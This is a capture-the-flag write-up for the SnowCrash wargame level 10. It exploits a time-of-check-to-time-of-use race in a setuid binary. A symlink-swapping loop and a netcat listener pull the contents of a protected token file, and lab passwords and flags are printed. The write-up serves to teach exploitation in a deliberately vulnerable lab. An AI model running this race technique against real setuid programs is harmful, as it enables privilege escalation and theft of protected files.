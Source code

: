 # Level10

## How to login

```bash
ssh level10@192.168.1.184 -p 4242
password: s5cAJpM8ev6XHw998pRWG728z
```

## How to get the flag

Once logged, we have access to two files called 'level10' and 'token' (both belonging to user 'flag10'). We try to see the content of 'token' but we are not allowed since the file belongs to user 'flag10'. On the other hand, we have the binary file 'level10' that needs two arguments (being the first one the token) that presumably will give us access to the password.
```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

It is noticed that the binary has the Setuid bit set, meaning that it will be executed with the privileges of the file owner, this can be a security risk if the file is vulnerable to exploitation since an attacker could potentially exploit the file to gain the privileges of the file owner (flag10). Thanks to this we can execute 'level10'.

In order to obtain more info, we decide to run command 'ltrace' with the binary file to intercept and record dynamic library calls which are called by the executed process. 
```bash
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                             = -1
printf("You don't have access to %s\n", "token"You don't have access to token
) = 31
+++ exited (status 31) +++
level10@SnowCrash:~$ 
```

It seems that 'access' is called in order to verify if the user can access to 'token'. Taking a look to 'access' man pages we find the following behavior that can be used for our exploiting purposes.
```
NOTES
       Warning:  Using  access()  to  check if a user is authorized to, for
       example, open a file before actually doing so using open(2)  creates
       a  security  hole,  because  the  user  might exploit the short time
       interval between checking and opening the  file  to  manipulate  it.
       For this reason, the use of this system call should be avoided.  (In
       the example just described, a safer alternative would be  to  tempo‐
       rarily  switch  the  process's  effective user ID to the real ID and
       then call open(2).)
```

This issue creates what is called a Time-of-Check to Time-of-Use (TOCTOU) race condition. So, if we are able to swap 'token' with our exploit in this lapsus of time between the successful call to 'access' and the call to 'open' we could have a chance to inject our exploit. This can be done by replacing the 'token' file with a symbolic link to our exploit, tricking 'level10' into opening the wrong file.

So, first of all let's create a fake token and let's try to connect with it to see the response.
```bash
level10@SnowCrash:~$ echo "This is a fake token" > /tmp/fake_token
level10@SnowCrash:~$ ./level10 /tmp/fake_token localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

As expected it doesn't work but the response gives a clue about the port that the binary attempts to connect to, which will be important later. The next step is to run a line of code that will loop indefinitely, switching continuously between the real token and our fake token.
```bash
level10@SnowCrash:~$ while true; do ln -sf /tmp/fake_token /tmp/token_link; ln -sf ~/token /tmp/token_link; done
```

The terminal will be trapped in the infinite loop, so we need to open another one, to run the binary 'level10' with the symbolic link as argument and also inside an infinite loop.
```bash
level10@SnowCrash:~$ while true; do ./level10 /tmp/token_link 192.168.1.184; done
```

The 'level10' binary will eventually open our fake token file during the race condition. Since the binary sends the file contents to a host (as suggested by its usage message), we can use 'netcat' to capture the output. When the binary opens our fake token the text 'This is a fake token' will be printed. On the other hand when the race condition is successfully exploited, we obtain the content of the real token file.
```bash
level10@SnowCrash:~$ nc -lk 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
This is a fake token
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
This is a fake token
.*( )*.
```

It seems that it worked, now we only need to obtain the flag.
```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$
```